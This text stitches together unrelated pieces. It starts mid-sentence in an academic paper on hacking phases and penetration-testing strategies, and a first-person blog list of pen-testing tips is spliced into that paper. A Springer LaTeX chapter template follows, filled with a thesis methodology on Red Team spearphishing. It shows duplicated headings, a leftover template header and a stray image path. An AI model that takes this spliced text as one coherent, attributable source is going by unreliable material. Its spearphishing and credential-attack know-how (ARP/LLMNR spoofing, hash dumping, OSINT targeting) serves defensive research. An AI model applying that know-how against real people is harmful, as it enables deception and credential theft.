security personals cannot then enter and access the attacked 
system. In such a situation, the owned system (mentioned 
in Phase 3) is then referred to as “Zombie System”.  
Fig. 2  Hacking Phases 
Phase 5: Evidence Removal: In this phase, the hacker 
removes and destroys all the evidences and traces of 
hacking, such as log files or Intrusion Detection System 
Alarms, so that he could not be caught and traced. This also 
saves him from entering into any trial or legality. Now, 
once the system is hacked by hacker, there are several 
testing methods available called penetration testing to 
discover the hackers and crackers. 
V. TESTING STRATAGIES 
• External testing strategy. External testing refers to attacks 
on the organization's network perimeter using procedures 
performed from outside the organization's systems, that is, 
from the Internet or Extranet. This test may be performed 
with non-or full disclosure of the environment in question. 
The test typically begins with publicly accessible 
information about the client, followed by network 
enumeration, targeting the company's externally visible 
servers or devices, such as the domain name server (DNS), 
e-mail server, Web server or firewall. 
•Internal testing strategy. Internal testing is performed from 
within the organization's technology environment. This test 
mimics an attack on the internal network by a disgruntled 
employee or an authorized visitor having standard access 
privileges. The focus is to understand what could happen if 
the network perimeter were successfully penetrated or what 
an authorized user could do to penetrate specific 
information resources within the organization's network. 
The techniques employed are similar in both types of 
testing although the results can vary greatly. 
•Blind testing strategy. A blind testing strategy aims at 
simulating the actions and procedures of a real hacker. Just 
like a real hacking attempt, the testing team is provided  with only limited or no information concerning the 
organization, prior to conducting the test. The penetration 
testing team uses publicly available information (such as 
corporate Web site, domain name registry, Internet 
discussion board, USENET and other places of 
information) to gather information about the target and 
conduct its penetration tests. Though blind testing can 
provide a lot of information about the organization (so 
called inside information) that may have been otherwise 
unknown, for example, a blind penetration may uncover 
such issues as additional Internet access points, directly 
connected networks, publicly available 
confidential/proprietary information, etc. But it is more 
time consuming and expensive because of the effort 
required by the testing team to research the target. 
•Double blind testing strategy. A double-blind test is an 
extension of the blind testing strategy. In this exercise, the 
organization's IT and security staff are not notified or 
informed beforehand and are "blind" to the planned testing 
activities. Double-blind testing is an important component 
of testing, as it can test the organization's security 
monitoring and incident identification, escalation and 
response procedures. As clear  from the objective of this 
test, only a few people within the organization are made 
aware of the testing. Normally it's only the project manager 
who carefully watches the whole exercise to ensure that the 
testing procedures and the organization's incident response 
procedures can be terminated when the objectives of the 
test have been achieved. 
•Targeted testing strategy. Targeted testing or the lights
turned-on approach as it is often referred to, involves both 
the organization's IT team and the penetration testing team 
to carry out the test. There is a clear understanding of the 
testing activities and information concerning the target and 
the network design. A targeted testing approach may be 
more efficient and cost-effective when the objective of the 
test is focused more on the technical setting, or on the 
design of the network, than on the organization's incident 
response and other operational procedures. Unlike blind 
testing, a targeted test can be executed in less time and 
effort, the only difference being that it may not provide as 
complete a picture of an organization's security 
vulnerabilities[7] and response capabilities. While there are 
several available methodologies for you to choose from, 
each penetration tester must have their own methodology 
planned and ready for most effectiveness and to present to 
the client. 
Table 1 
Comparative Study Of Penetration Testing W.R.T The 
Perspectives 
The chart is prepared based for the categories involved on 
the data involved considering the presence as 1 and absence 
as 0. Also the chart for the testing method as penetration 
test involves for the category. The chart is shown in Fig.3 
and Fig.4 
Fig. 3 Categories as Total Outsider, Semi-Outsider and 
Valid user 
Fig. 4  Testing Methods involved with types hacking 
According to the table described above, the valid user is a 
hacker who has access to every piece of information and 
data of the organization, using any testing methods as 
compared to other two categories of total or outsider user. 
Semi outsiders have access to data by all methods accept 
the physical entry method. The total outsider is involved 
less as compared to the other two as they cannot access 
data using some methods like remote dial-up network, 
Local network and physical entry. This study reveals that a 
valid user is boon for organization till his intensions are 
clear; otherwise he is the one who can harm the most as he 
has the access to every information and data. The semi 
outsider comes after the valid user. And the total outsider 
user is of least concern.  
Here are my top five strategies for network pen testing. 
A. Test all the things 
In many environments that I’ve worked in, the IT security 
group is primarily concerned with their most sensitive data 
stores when it comes to penetration tests. This can create 
huge gaps in the vulnerability identification (and 
remediation) process that could allow an attacker to easily 
pivot to sensitive systems. Make sure you hit your sensitive  data stores, but pay close attention to the other hosts on 
your domain that could be compromised and used to get to 
sensitive data stores. 
B. Networks, networks, networks 
I see network layer protocol issues on almost every 
network penetration test. From ARP spoofing (old) to 
NBNS and LLMNR[7] spoofing (newer), network issues 
typically play a huge role in a penetration test. Most of 
these issues put an attacker in a man-in-the-middle position 
that’s perfect for capturing credentials (unencrypted and 
hashes) and relaying credentials. Additional network issues 
that should be tested include VLAN hopping (tag spoofing) 
and DTP spoofing. These issues can grant an attacker 
access to sensitive VLANs and/or all of the traffic headed 
to and from those VLANs. 
C . Brute Force All the Seasons 
If you’re testing internally, I can’t stress this enough. Do 
routine audits (weekly, monthly, and/or quarterly) of weak 
passwords. This can be as simple as doing a quick one 
password check (Winter2014), to dumping and cracking 
your domain hashes. If you’re going the dump and crack 
method, make sure you are taking extra precautions to 
protect those hashes during and after cracking. Any users 
identified with a weak password should get a friendly 
notification email, followed by a forced password reset, if 
they don’t change it by the end of the day. If you want to 
incentivize users, inform users of the plan to audit 
passwords and have some small prize for users that are on 
the good list. 
Interested in building your own cracking system for 
internal password auditing? Come see Eric Gruber and me 
at our “GPU Cracking, On the Cheap” talk on Wednesday 
(9:45 AM). 
D. Automated Scanners – Trust, but Verify 
You can typically trust (most) automated scanners, but they 
can be filled with false positives. Even worse, they may 
cause you to miss critical (entry point) vulnerabilities that 
show up in the lower severities. Take memcached for 
instance. The Nessus plugin[4] shows up as a medium, 
however I’ve seen memcached store database and local 
administrator credentials in cached data. This has resulted 
in immediate local administrator access to systems. Do 
your best to fully vet out listening services, even if there’s 
no scan data indicating serious vulnerabilities. 
E. Check Your Web Apps 
We frequently use web applications as entry points during 
internal penetration tests. For external testing, web apps are 
an extremely common entry point. Even light testing on 
internal apps can expose critical vulnerabilities, like 
directory traversal and SQL injection. Making sure you test 
your applications along with a network test will help cover 
your bases. 
CONCLUSION 
Hacking[1] has both its benefits and risks. Hackers are very 
diverse. They may bankrupt a company or may protect the 
data, increasing the revenues for the company. The battle 
between the ethical or white hat hackers and the malicious 
or black hat hackers is a long war, which has no end. While 
ethical hackers[5] help to understand the companies’ their 
security needs, the malicious hackers intrudes illegally and 
harm the network for their personal benefits.An Ethical[5] 
and creative hacking is significant in network security, in 
order to ensure that the company’s information is well 
protected and secure. At the same time it allows the 
company to identify, and in turn, to take remedial measures 
to rectify the loopholes that exists in the security system, 
which may allow a malicious hacker to breach their 
security system. They help organizations to understand the 
present hidden problems in their servers and corporate 
network. The study also reveals that the valid users are the 
ethical hackers, till their intensions are clear otherwise they 
are a great threat, as they have the access to every piece of 
information of the organization, as compare to total and 
semi outsiders. 
This also concludes that hacking is an important aspect of 
computer world. It deals with both sides of being good and 
bad. Ethical hacking[5]plays a vital role in maintaining and 
saving a lot of secret information, whereas malicious 
hacking can destroy everything. What all depends is the 
intension of the hacker. It is almost impossible to fill a gap 
between ethical and malicious hacking[5] as human mind 
cannot be conquered, but security measures can be tighten. 
%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Chapter Heading}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\abstract*{Spearphishing remains a serious cybersecurity threat because it is hard to detect and defend against. The risk is growing, especially with advances in AI and large language models such as GPT-4. To test defenses and raise awareness, organizations often hire Red Teams to simulate spearphishing attacks. Understanding how Red Teams conduct these attacks-and how their methods align with academic literature-can reveal ways to improve both Red Team operations and future research; however, existing research on Red Team spearphishing is limited, and there is no complete overview of offensive techniques in current literature.}

\section{Addressing Security Gaps}
The findings in this chapter offer a detailed view of spearphishing methods, including how attackers gather OSINT and craft convincing messages. They also point to practical improvements, such as targeting users based on vulnerability traits, and suggest research directions, such as analyzing how different levels of message personalization affect success.

Social engineering is about manipulating people into doing things they normally would not do for a stranger. When digital locks get stronger, attackers often just ask for the keys. In cybersecurity, social engineering-especially phishing-remains a growing threat. In 2024, 82 percent of security breaches involved human error, and phishing continues to be the leading method for launching ransomware attacks.

Spearphishing is a more targeted and effective from of phishing. Instead of casting a wide net, attackers craft realistic messages aimed at specific individuals or groups using personal information. One study showed that incorporating data from social media into spearphishing emails increased success rates from 16 percent to 72 percent.

To defend against these cyberattacks, organizations typically train employees through awareness campaigns. These often involve simulated phishing emails; when an employee clicks a link, they are redirected to a site that explains the nature of the simulation and how to recognize future threats. Some organizations take this further by hiring Red Teams-authorized groups that mimic malicious attackers to test defenses. Red Teams can exploit both technical vulnerabilities and human weaknesses through social engineering, including spearphishing. After a campaign, they provide detailed reports with recommendations to strengthen security.

Understanding how Red Teams actually conduct spearphishing is valuable for two key reasons:
1. It helps identify gaps between academic research and real-world practices.
2. It can guide improvements in both Red Team methodologies and organizational defenses.

Current literature lacks a comprehensive overview of spearphishing techniques as used in practice. While some literature explore specific methods or survey phishing in general, there is no in-depth account of how Red Teams apply these techniques in real-world scenarios. Similarly, research on Red Teams themselves is limited and rarely focused on spearphishing.

This thesis addresses these gaps by answering three research questions:
\begin{itemize}
    \item RQ1: What spearphishing techniques and contextual factors are discussed in the literature?
    \item RQ2: What techniques and contextual factors are used and considered by Red Teams in practice?
    \item RQ3: How do the findings from RQ1 and RQ2 compare?
\end{itemize}

Since spearphishing techniques are closely tied to the context in which they are applied, both aspects will be analyzed. Definitions of these terms are provided in below sections.

This chapter focuses on three main contributions:

1. A comprehensive overview of spearphishing techniques from existing literature (RQ1).
2. Insight into how these techniques are used in practice by Red Teams (RQ2).
3. A comparison between theory and practice to highlight research opportunities and ways to improve Red Team operations (RQ3).

Structure of the chapter:
\begin{itemize}
    \item Section 2: Preliminaries and related work
    \item Section 3: Research questions and methodology
    \item Section 4: Results
    \item Section 5: Interpretation and limitations
    \item Section 6: Conclusion
\end{itemize}

\subsection{Background}
This chapter introduces the foundational concepts needed to understand the rest of this chapter. It defines spearphishing, outlines the typical process behind such attacks, and breaks down the techniques and contextual factors involved. It also reviews related work on spearphishing and Red Teams.

\section{Preliminaries}
\subsection{Definition of a Spearphishing Attack}

There is no universally accepted definition of spearphishing in social engineering literature. Based on key themes from prior research, this chapter defines a spearphishing attack as:
\begin{itemize}
    \item a semantic attack,
    \item involving direct communication from attacker to target,
    \item with explicitly chosen targets, and
    \item using a personalized message.
\end{itemize}

A semantic attack refers to manipulation of the user-computer interface to breach information security through deception, rather than exploiting technical vulnerabilities. This excludes purely technical exploits and non-digital social engineering methods like vishing (voice phishing) or in-person manipulation.

Social engineering can involve either direct or indirect communications. Phishing falls under direct communication, which excludes tactics like baiting (e.g., leaving USB sticks for targets to find).

Spearphishing targets specific individuals or groups. They are chosen based on their role, organization, or access level.

The final defining element is personalization. Spearphishing messages are tailored using publicly available or previously gathered information about the target to make the message more believable and effective.

\subsection{Spearphishing Process}
Spearphishing attacks generally follow a multi-step process. This chapter uses a model that combines the phases of a social engineering attack with the lifecycle of a phishing attack, as shown in Figure 2.1.

This combined model provides a structured view of how spearphishing attacks are typically planned and executed, from reconnaissance to message delivery and beyond.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{phishingproc.png}
    \caption{Figure 2.1: The spearphishing process}
    \label{fig:placeholder}
\end{figure}

\subsection{Spearphishing Process}
Spearphishing attacks typically follows a multi-phase process. This model, shown in Figure 2.1, combines stages from social engineering attack frameworks with the phishing attack lifecycle.
\subsubsection{Planning and Setup:}
\begin{itemize}
    \item The attacker defines the objective and selects the target(s). Next,Open-Source Intelligence (OSINT) is gathered to learn more about the target. Based on new insights, the attacker may refine their objectives or target list. Then, the necessary infrastructure-such as phishing websites, fake domains, or malware-is prepared.
\end{itemize}
\subsubsection{Attack Construction:}
\begin{itemize}
    \item The spearphishing message is crafted using the information gathered, tailored to the targets and aligned with the attack goals. Additional artifacts like malware or phishing sites may be created during this phase.
\end{itemize}
\subsubsection{Attack Distribution}
The message is sent to the targets via chosen communications channels (e.g., email, SMS, or social media).
\subsubsection{Installation / Data Collection:}
\begin{itemize}
    \item The attacker monitors how targets respond-such as by clicking links, entering credentials, downloading malware, or replying. This stage reflects the attacker's ability to collect data or gain initial access.
\end{itemize}
\subsubsection{Break-Out:}
\begin{itemize}
    \item If the objective is achieved, the attacker may proceed with further exploitation or clean up traces, collecting more intel, or reattempting delivery.
\end{itemize}

\subsection{Spearphishing Techniques}
A spearphishing technique is defined as a non-trivial method used to perform part of the spearphishing process. "Non-trivial" means the attacker deliberately chooses the methods from a set of options based on the context or objective.

Examples include:
\begin{itemize}
    \item Using OSINT tools fo reconnaissance
    \item Choosing SMS as the delivery channel (smishing)
\end{itemize}

\subsection{Attack Context Element}
To understand spearphishing in practice, it is not enough to study the techniques used-we must also consider the attack context in which decisions are made.

The attack context includes all information available to the attacker that could influence their method selection. An attack context element is any specific piece of that information.

Examples of context elements:
\begin{itemize}
    \item Target characteristics (e.g., role, age, profession)
    \item External events (e.g., pandemics, corporate news)
    \item Pre-established infrastructure
    \item Responses from earlier phishing attempts
\end{itemize}

These context elements can shape both which techniques are used and how they are implemented.

\subsection{Techniques and Context Elements}
Research into spearphishing techniques and contextual factors is extensive, covering everything from fake social media profile creation to hosting phishing websites on the dark web, and using persuasion principles in phishing messages.

However, most reviews and surveys focus on defensive strategies, such as:

\begin{itemize}
    \item Semantic attack detection
    \item Phishing classification methods
    \item General phishing and spearphishing defenses
\end{itemize}

\subsection{Offensive Spearphishing in Literature}
Only a few academic studies focus on offensive spearphishing techniques—and those that do are often high-level or narrowly scoped. Rarely do they explore spearphishing in depth or in practical terms.

 \begin{itemize}
    \item Some literature review general phishing types, phishing "in the wild," or specific components such as malicious URLs, social engineering malware, and human vulnerability factors.

For example, some literature reviews examine general phishing categories, attacks observed “in the wild,” or specific technical components such as:
\item Malicious URLs
\item Social engineering malware
\item Human vulnerability factors
A small number of broader surveys include:
\item General overviews of phishing attack types, defense mechanisms, and research challenges—but with minimal detail on offensive methods
        \item Taxonomies of phishing vectors and technical tools—yet lacking real-world implementation depth
        \item Studies that focus more heavily on countermeasures than attack strategies
    \end{itemize}

Currently, there is no comprehensive detailed review of spearphishing techniques or the many contextual factors that attackers consider when choosing them. This represents a significant knowledge gap for defenders and Red Team practitioners who need to understand how spearphishing is realistically carried out.

\subsubsection{2.2.2 Spearphishing in Practice}

Studies on real-world offensive spearphishing are limited, especially those focused on \textbf{how Red Teams execute these attacks}. Most existing research examines broader Red Team concepts rather than spearphishing techniques.

Industry researchers have defined Red Teaming in commercial contexts and compared it to penetration testing, emphasizing its focus on simulating threat actor behavior rather than just identifying technical flaws.
\begin{itemize}
    \item \textbf{Cybersecurity analysts} have discussed when Red Team exercises are most useful when used to assess the security posture of an organization.
    \item \textbf{Legal and risk specialists} have proposed ways to reduce legal and reputational risks during engagements.
\end{itemize}

Some sources provide high-level overviews of Red Team engagement processes, including some general tactics and techniques. Others have conducted interviews with Red Team members and offered anecdotal insight into operational practices; however, some articles lack technical detail about the methods Red Teams use these articles to carry out spearphishing attacks or how they choose their approach based on context.

This lack of detail makes it difficult for defenders to benchmark, replicate, or improve offensive spearphishing simulations in their own organizations.

\subsection{Methodology}

This section outlines a structured approach to comparing spearphishing practices used by Red Teams with those documented in academic literature. The aim is to help defenders understand where gaps exist between theory and practice.

To structure this analysis:
RQ1 is addressed through a focused literature review of offensive spearphishing research.
RQ2 is answered through semi-structured interviews with Red Team professionals from a large consulting firm.
\textbf{RQ3} is answered by comparing the findings from RQ1 and RQ2.
The scope of each question is intentionally narrowed for clarity:
RQ1 excludes certain context elements and focuses on specific stages of the spearphishing process that are most relevant for offensive analysis.
RQ2 includes all relevant techniques and context elements but draws only from a select set of experienced Red Teamers.


\subsubsection{3.1 RQ1 – spearphishing Techniques and Attack Context Elements}

To answer RQ1, defenders should develop a \textbf{structured overview} of offensive spearphishing methods and the contextual factors that influence them. This helps identify which techniques are discussed in literature and under what conditions they are applied.

The process involves:

\begin{enumerate}
    \item Defining which techniques and context elements fall within the scope of analysis
    \item Collecting and reviewing relevant academic articles
    \item Extracting and categorizing the techniques and context elements they describe
\end{enumerate}

\subsubsection{3.1.1 Scope for the Literature Study}

Spearphishing techniques and context elements are broad concepts. Without limitations, a review of the literature would become overly large and unfocused. To keep it actionable for defenders, the scope is narrowed to:

\paragraph{\textbf{Context Elements:}}
Only \textbf{offensive-relevant context elements} are included.

Elements tied to \textbf{defensive actions or mitigation} by targets are excluded.

\subsection{\textbf{Spearphishing Techniques}}
Only techniques relevant to \textbf{specific stages} of the spearphishing process are included.

Two criteria guide inclusions:
\begin{itemize}
    \item Is the step unique to spearphishing (not just general cyberattacks)?
    \item Would Red Teams benefit from applying these techniques?
\end{itemize}

These criteria were validated in consultation with a Red Team subject matter expert.

\subsubsection{3.1.2 Included Steps and Rationale}

\textbf{In Scope:}

\textbf{1. Select Targets:}
Critical to spearphishing. Selecting high-value or vulnerable targets is a key challenge for Red Teams.

\textbf{2. Gather OSINT:}
Collecting publicly available data is essential to personalize attacks. Techniques for OSINT are included. General reconnaissance methods (for example, calling the target or technical scanning) are excluded.

\textbf{3. Create Artifacts (excluding malware):}
Techniques for building believable phishing content (e.g., fake PDFs, cloned login portals) are in scope. Malware creation is excluded as it applies more broadly beyond spearphishing.

\textbf{4. Craft Spearphishing Message:}
Message generation is key to spearphishing success. This includes structure, tone, pretexting methods, and the use of psychological principles.

\textbf{5. Distribute the Attack:}
Methods of delivery, such as email, SMS, messaging platforms, and others are included.

\textbf{Out of Scope:}

\textbf{1. Define Objectives:}
In Red Teaming, objectives are usually predefined by the client, not chosen by the attacker.

\textbf{2. Plan / Resource Attack:}
Resource planning is not spearphishing-specific.

\textbf{3. Set Up Infrastructure:}
Decisions here are based on tools and logistics—not useful for understanding spearphishing strategy.

\textbf{4. Target Behavior (e.g., clicking, downloading):}
These are responses to an attack, not attacker actions, and are treated as part of the \textbf{context} not the \textbf{techniques}.

\textbf{5. Collect Data and Monitor Targets:}
This step relates to persistence or post-exploitation, not spearphishing execution.

\textbf{6. Break-Out Phase:}
Actions taken after success (e.g., covering tracks, lateral movement) are dependent on broader attack goals and offer little insight into spearphishing strategy.

\subsubsection{Summary: In-Scope Spearphishing Steps}

Defenders conducting a review should focus on techniques used in the following stages of the spearphishing process:

\begin{itemize}
\item Selecting targets
\item Gathering OSINT
\item Creating artifacts (excluding malware)
\item Crafting the spearphishing message
\item Distributing the attack
\end{itemize}

\subsection{Step 3: Include Emerging Research on AI-Driven Spearphishing}
Given the rise of Large Language Models (LLMs) in crafting phishing content, defenders must also account for AI-generated spearphishing techniques.

Because this is a rapidly evolving area, traditional databases may lag in indexing relevant research. Google Scholar can be used with a search such as:
\begin{lstlisting}
    ("LLM" OR "large language model" OR "ChatGPT" OR "GPT") AND "phishing"
\end{lstlisting}

The goal is to find articles discussing:

\begin{itemize}
    \item The use of AI to automate message crafting
    \item Experimental results with LLM-generated phishing attacks
    \item Potential risks and mitigation strategies
\end{itemize}

Review titles and abstracts to filter out irrelevant results and stop once newer pages begin surfacing unrelated content.

\subsection{Step 4: Use Snowballing to Fill Gaps}
To ensure coverage is as complete as possible, defenders should review the references of all collected articles. This snowballing technique helps identify relevant sources that may not appear in keyword-based searches.

When examining references:
\begin{itemize}
    \item Look for studies cited in support of offensive techniques or context elements
    \item Prioritize articles that introduce something not already seen in earlier searches
    \item Include alternative or conflicting perspectives on spearphishing methods
\end{itemize}

When a cited paper seems relevant, scan its title, abstract, and-if necessary-its main sections to assess inclusion.

This approach gives defenders a replicable process for effectively building a detailed and up-to-date view of offensive spearphishing tactics, rooted in both foundational literature and cutting-edge developments.

\subsection{Identifying and Categorizing Techniques and Context Elements for Spearphishing}
To make the findings from academic literature useful for acute comparison with real-world Red Team practices (RQ3 with spearphishing techniques and attack context elements must first be systematically identified and categorized.

\subsubsection{Identifying Techniques and Context Elements from Literature}
From the collected articles, relevant techniques and context elements are extracted based on the definitions and scope established in Section 3.1.1. When possible, conclusions drawn in the articles about these techniques or elements are also recorded.

Determining whether something qualifies as a technique or a context element is not always that straightforward. For instance, the use of a specific OSINT tool like Maltego qualifies as a technique, but it also serves as an example of a broader method: Using OSINT tools. In such cases, the more abstract method is recorded as the primary technique, and the specific tool is noted as an example.

Where multiple examples are found for a given technique, only a representative subset is cited to keep the dataset manageable.

\subsubsection{Categorizing for Comparison with Practice}
To enable a direct and structured comparison between literature-based findings (RQ1) and real-world Red Team practices (RQ2), all identified techniques and context elements are organized into categories.This categorization process supports clarity and consistency in answering RQ3.

The process follow a hybrid approach as such:
\begin{itemize}
    \item Top-down: high-level categories are defined in advance based on the spearphishing process and context models used.
    \item Bottom-up: Subcategories are created as needed during the analysis, based on patterns that emerge from the datasets.
\end{itemize}

\subsubsection{Context Element Categories}
Context elements are sorted into three high-level groups, as such:
\textbf{1. Attacker Context}
\begin{itemize}
\item Describes characteristics or constraints specific to the attacker, such as skill level, available resources, or tools and time.
\end{itemize}
\textbf{2. Individual Target Context}
\begin{itemize}
    \item Covers attributes of a specific target, such as their job role, behavior, or digital footprint.
\end{itemize}
\textbf{3. Environmental Context}
\begin{itemize}
    \item Encompasses broader organizational and situational factors, including company culture, ongoing events (e.g., a merger or a crisis), or the pool of potential targets. For example:
    \begin{itemize}
        \item \textit{Target age} and \textit{target gender} fall under Individual Target Context and can be grouped into a subcategory such as Demographics.
    \end{itemize}
\end{itemize}

\subsubsection{Technique Categories}
Techniques are organized into five high-level categories, aligned with the spearphishing process steps defined in the literature scope (Section 3.1.1):
\textbf{1. Select Targets}
\textbf{2. Gather OSINT}
\textbf{3. Create Artifacts} (excluding malware)
\textbf{4. Craft Spearphishing Message}
\textbf{5. Distribute Attack}
Within each step performed, related techniques are grouped into subcategories as they emerge from the data. This allows defenders to trace not just \textit{what} techniques exist, but also \textit{where} in the attack lifecycle they are applied.

\subsubsection{Ensuring Consistent Categorization}
The categories are designed to be internally consistent and non-overlapping. As the review progresses, categories may be created, merged, or split to better reflect the literature.

While there may be more than one valid way to categorize the same content, consistency is maintained between the literature review and interview analysis. This ensures that the final comparison in RQ3 remains valid and meaningful-regardless of how specific groupings are structured.

\subsection{RQ2-Spearphishing Techniques and Context Elements Used in Practice}
To answer RQ2-and in support of the comparison in RQ3-this research compiles a structured overview of spearphishing techniques and attack context elements used and considered by Red Teams in real-world engagements. This overview includes concrete examples, as well as reasoning behind the selection and application of different techniques.

The data for this analysis was collected through semi-structured interviews with Red Team professionals. The sections below explain how the interview protocol was designed, how participants were selected, how interviews were conducted, and how responses were collected and analyzed.

\subsubsection{Interview Design}
The interview structure was built around two main goals:
1. To identify which spearphishing techniques and context elements Red Teams use and consider in practice (RQ2), and
2. To ensure the data can be meaningfully compared with literature findings (RQ3).

To achieve these goals, a semi-structured format was used, blending standardized questions with flexibility for deeper exploration. The interview was divided into four main sections consisting of:
\subsubsection{\textbf{1. Introductory Questions}}
These questions establish the participant's background and level of experience with spearphishing in Red Team operations. This context is important for assessing the relevance and reliability of their insights.
\textbf{2. Process-Oriented Questions}
Participants are asked to describe the overall spearphishing process they follow. This helps map out how techniques are applied in context, and ensures that the sequence of attack stages is well understood.
3. Technique-Specific Questions
These questions dive into each subsequent stage of the spearphishing process-such as target selection, OSINT gathering, message crafting, and attack distribution-and ask what techniques are typically used. These questions are also designed to surface the context elements that Red Teamers consider when choosing or modifying their approach.
\textbf{4. Campaign Walkthrough}
Participants are asked to walk through a realistic spearphishing campaign from beginning to end. This provides:
\begin{itemize}
    \item A complete view of how steps are connected in practice
    \item A way to validate earlier responses
    \item An opportunity to identify techniques or context factors that may not have come up in isolated questions
\end{itemize}

This campaign-focused question also helps detect any steps, strategies, or decision points that might not be emphasized in the literature and articles gathered.

A full list of the interview questions can be found in the Appendices section.

\subsubsection{Participant Selection}
To gather meaningful insights into real-world spearphishing practices, interview participants were selected from across the offensive security teams within DoDNIC global network. All participants had direct experience executing spearphishing campaigns in the context of Red Teaming and CCRI engagements.

In total 10 professionals and 7 international offices took part in the study. Participants ranged from senior associates with several years of hands-on experience to team leads and directors overseeing Red Team operations.

Before participating, each interviewee signed an informed consent form, which outlined:
\begin{itemize}
    \item The purpose of the interview
    \item The voluntary nature of participation
    \item How their data would be recorded, used, and stored

\end{itemize}

\subsubsection{Interview Process}
Paticipants received the informed consent from ahead of time, ensuring full transparency about the process and goals of the interview. Each interview lasted approximately 50 minutes, with audio recorded for transcription and analysis-except in two cases:
1. One participant preferred not to be recorded; their answers were written down during the session.
2. Another participants had limited availability, resulting in a 25-minute interview that focused on a smaller subset of techniques.

The interviews followed the semi-structured format outlined in Section 3.2.1, with space for:
\begin{itemize}
    \item Follow-up questions for clarification
    \item Additional prompts to explore specific techniques or decision-making contexts

\end{itemize}

Because of time constraints, not all process steps could be explored equally in every interview. Instead, each session focused in greater depth on specific phases of the spearphishing process-based on the participant's expertise and whether they introduced techniques or context elements not yet discussed in other interviews.

After each session:
\begin{itemize}
    \item Interview were transcribed manually to maintain control over interpretation.
    \item In some cases, answers were lightly paraphrased to streamline transcription efforts- without altering original meaning.
    \item All recordings and transcripts were stored securely on a DoD-issued GFE (Government Furnished Equipment) laptop and subsequently deleted after analysis was completed, in accordance with data handling protocols specific to the agency or target organization.
\end{itemize}

\subsubsection{Data Analysis}

The interview data was analyzed with two main objectives in mind:
1. To reconstruct the spearphishing process as it is carried out in practice by Red Teams
2. To categorize the techniques and context elements discussed by participants in a way that supports direct comparison with the literature findings (RQ3).

\subsubsection{Deriving the Practical Spearphishing Process}
The very first step in the analysis was to build a generalized spearphishing process model based on participant inputs. This model was constructed by combining the processes described across interviewees.

While individual Red Team members described variations in step order or emphasis, these differences were not critical. The goal was not to capture exact sequences (with the sound understanding that they all differ and vary), but to produce a high-level process model comparable to the one derived from literature (Figure 2.1). All techniques mentioned by participants were mapped to one or more steps in this detailed and generalized process.

\subsubsection{Categorizing Techniques and Context Elements}
To enable a structured comparison between practice (RQ2) and literature (RQ1), the existing categorization framework developed during the literature study was reused during interview analysis.
\begin{itemize}
    \item For techniques, any new steps described by Red Teamers-those not already covered in the literature-based process-were added as additional high-level categories.
    \item For context elements, the original three high-level categories (attacker context, individual target context, and environmental context) already encompassed all possible elements, so no new top-level categories were needed at that time.
\end{itemize}

\subsubsection{Identification and Classification Approach}
Techniques and context elements were identified and categorized using the same method applied during the literature review; however, with two key differences:
\textbf{1. No scope limitations were applied} during identification. All relevant techniques and context elements mentioned in interviews were included.
\textbf{2. Categorization was flexible}, but grounded in the original framework. If an item fit an existing category from the literature, it was placed there. If it related to a newly added step from the practical process, a new subcategory was created as needed.

Alongside each technique or context element, the analysis also recorded:
\begin{itemize}
    \item Examples provided by the participants (e.g., specific tools, channels, or message styles)
    \item Reasoning behind technique selection or contextual considerations (e.g., why a certain method was used for a given scenario vice another)
\end{itemize}

This approach ensured that the interview data could be compared directly to the literature-both structurally and substantively-when answering RQ3.

\subsection{RQ3-Comparing Literature and Practice}
To answer RQ3, the spearphishing techniques and attack context elements identified from literature (RQ1) and Red Team practice (RQ2) are compared using a structured three-level framework. This allows for a nuanced analysis of where, how, and why gaps or misalignments exist between research and real-world application.

\subsection{Levels of Comparison}
Differences between literature and practice are identified on the following three levels:

\textbf{1. Category-Level differences}
A category-level difference occurs when an entire category of techniques or context elements exist in one domain (literature or practice) but not in the other.
\textit{Example:} A specific phase of the spearphishing process used by Red Teams that was not discussed in the literature review.
\textbf{2. Technique-Level Differences}
A technique-level difference appears when a specific technique or context element is found in one domain but missing in the other-within an existing shared category.
\textit{Example:} The use of LinkedIn automation tools to gather OSINT may appear in interviews but not in academic sources.
\textbf{3. Reasoning-Level Differences}
A reasoning-level difference is noted when a technique or context element is found in both domains, but the rationale or implementation differs.
\textit{Example:} Literature might describe a method as effective based on experimental results, while practitioners dismiss it due to operational constraints or risk of detection.

\subsection{Scope Considerations and Interpretation}
\begin{itemize}
    \item Category-level differences that result solely from the limited scope of the literature review are acknowledged but not analyzed in detail, as they reflect methodological boundaries rather than practical insight gaps.
    \item Technique-level differences are all noted; however, discussion is limited to cases where the reason for the discrepancy can be clearly inferred-either from the academic literature or the interviewee's responses.
    \item Reasoning-level differences are the most common. While many minor deviations are expected, only notable or strategic differences are highlighted and discussed. These are prioritized when they offer:
    \begin{itemize}
        \item Opportunities to improve Red Team methods
        \item Insightful directions fo future research
        \item Evidence of evolving attacker behavior not yet reflected in literature
    \end{itemize}
\end{itemize}

This structured comparison not only highlights what is missing from current academic discourses but also identifies which specific techniques are most relevant for defenders looking to align threat behaviors into simulations with real-world attacker behaviors applied.

\subsection{Spearphishing Techniques and Context Elements in the Literature}
This section presents the results of the literature review aimed at answering \textbf{RQ1: What spearphishing techniques and attack context elements are discussed in the literature?}

The review process was based on three structured searches:
\begin{itemize}
